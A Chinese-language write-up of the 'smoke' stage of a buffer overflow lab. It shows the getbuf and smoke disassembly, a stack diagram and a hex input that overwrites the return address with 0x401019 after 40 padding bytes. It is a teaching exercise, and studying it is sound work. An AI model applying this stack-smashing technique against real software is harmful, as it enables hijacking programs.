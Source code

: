 # 缓存溢出攻击
## 入口函数 getbuf
```asm
00000000004015d5 <getbuf>:
  4015d5:	48 83 ec 28          	sub    $0x28,%rsp
  4015d9:	48 89 e7             	mov    %rsp,%rdi
  4015dc:	e8 f6 fa ff ff       	callq  4010d7 <Gets>
  4015e1:	b8 01 00 00 00       	mov    $0x1,%eax
  4015e6:	48 83 c4 28          	add    $0x28,%rsp
  4015ea:	c3                   	retq
```
从这里我们可以看到getbuf函数的栈相关情况。


|        栈           |       位置      |
|--------------------|-----------------|
|getbuf返回地址(0x00)  | <- ebp          |
| (-0x04)            |                 |
| (-0x08)            |                 |
|....................|                 |
|  (-0x28)           |  <- buf <-rsp   |


## smoke
```asm
0000000000401019 <smoke>:
  401019:	48 83 ec 08          	sub    $0x8,%rsp
  40101d:	bf cf 26 40 00       	mov    $0x4026cf,%edi
  401022:	e8 69 fc ff ff       	callq  400c90 <puts@plt>
  401027:	bf 00 00 00 00       	mov    $0x0,%edi
  40102c:	e8 ba 06 00 00       	callq  4016eb <validate>
  401031:	bf 00 00 00 00       	mov    $0x0,%edi
  401036:	e8 c5 fd ff ff       	callq  400e00 <exit@plt>
```
查到smoke的函数地址是0x00401019。
由于我的系统是小端序，将其按小端序重写是`19 10 40 00 00 00 00 00`。
将返回地址覆盖，只需要将原先的buf区域全部填0即可，0x28 = 40个字节
所以最终答案如下:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
19 10 40 00 00 00 00 00
```
